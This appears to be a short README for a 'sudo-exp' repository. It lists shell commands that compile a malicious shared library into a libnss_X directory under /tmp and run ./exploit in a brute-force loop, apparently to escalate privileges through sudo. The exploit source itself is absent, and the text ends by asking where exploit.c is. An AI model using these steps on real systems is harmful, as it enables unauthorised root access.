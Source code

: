 # sudo-exp
cd /tmp


mkdir libnss_X


gcc -fpic -shared -nostdlib -o libnss_X/X.so.2 la.c


for i in {1..128000}; do echo -n "try number $i "; ./exploit; done



where is exploit.c？？？
